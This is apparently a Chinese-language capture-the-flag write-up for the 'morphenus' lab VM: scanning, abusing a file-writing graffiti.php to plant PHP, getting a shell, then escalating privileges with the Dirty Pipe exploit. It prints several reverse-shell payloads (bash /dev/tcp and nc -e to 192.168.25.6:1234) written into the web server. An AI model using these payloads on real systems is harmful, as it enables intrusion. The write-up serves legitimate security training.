# morphenus（√）

## nmap扫描  

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
81/tcp open  http    nginx 1.18.0
MAC Address: 00:0C:29:0B:D1:AC (VMware)
```

## web渗透  

  
访问robots.txt是这样的结果，然后将主页的图片下载下来看有没有隐写。  
  
结果是没有，在接着更细的目录扫描，文件扫描发现一个新php文件
  
  
我们通过输入框向graffiti.txt输入内容，然后页面再读取txt文件内容，我想这里一个有lfi，但是模糊测试没测出来，然后我又想了一下，这个可以写内容到文件里去，然后读的时候是读的graffiti.txt，所以我更改前端元素时它会一直加载。  
当我把input标签里的graffiti.txt改成graffi.php又得到了这样的结果  
  
  
然后可以确定有lfi，并且看到了graffiti.php的源码，通过源码分析，可以通过message参数写入file参数的文件，并且读取那个文件。我的初步分析是以为isset()是判断文件是否存在，结果这个导致我接下来鼓捣半天，不过无伤大雅，但实际上这个是判断参数是否设置，我在看别人的wp时别人都是直接新建一个shell.php然后写入shell。  

## 获得初始shell  

我尝试访问/etc/passwd失败，访问不了/etc/passwd是因为需要先写再读，然后我直接写shell到graffiti.php，但是为什么不解析  
  
我尝试这样以及这样去写payload，最后我明白了写文件是a+，所以还得加上<?php ?>
exec("/bin/bash -i 5<> /dev/tcp/192.168.25.6/1234 0<&5 1>&5 2>&5");
bbb system("nc 192.168.25.6 1234 -e /bin/bash");  
后面又经过一番鼓捣之后  
<?php bbb system("nc 192.168.25.6 1234 -e /bin/bash");?>这个写进去了,php文件访问服务器错误。然后我就不得不reset靶机，然后继续这样写。
<?php echo "abc"; exec("bash -c '/bin/bash -i >& /dev/tcp/192.168.25.6/1234 0>&1'")?>但是我发现我直接写进去，代码会被注释掉一部分  
  
我就再用相同的payload再写第二次，终于写进去了！！！
  

## 提权  

我一番查找之后来到了web目录，发现一张图片，下载下来看是否有隐藏信息
  
  
同时我发现我能读根目录下的FLAG.txt，并且它提示我入手点就在这个图片  
  
  
我发现strings查看有个imagemagick，猜测可能是这个去分析图片得到一些信息，但是不会用这个，鼓捣半天也没发现什么端倪，然后我又一次看wp。  
看了一堆wp，都是用linpeas.sh分析出一个叫dirty-pipe的漏洞，exp在这儿(dirty-pipe)[https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit]，然后根据操作步骤提权像下面一样，但是我是非常反感这个枚举脚本，因为他会列出一大堆漏洞，然后wp也是不告诉你为什么就选择这个进行利用，看的我模棱两可的，难道真的没法分析那张图片吗？
  
  

## 总结  

1. 写入shell那里本来不是什么难事，但是有坑，网上的wp基本上都是写入一个新php文件，并且还用什么编码哪些巴拉巴拉一堆。
2. 这个提权也是无语，完全搞不懂为什么就是那个东西。
3. 虽然官方标注的是中等-困难的难度，但是感觉不是难，而是无厘头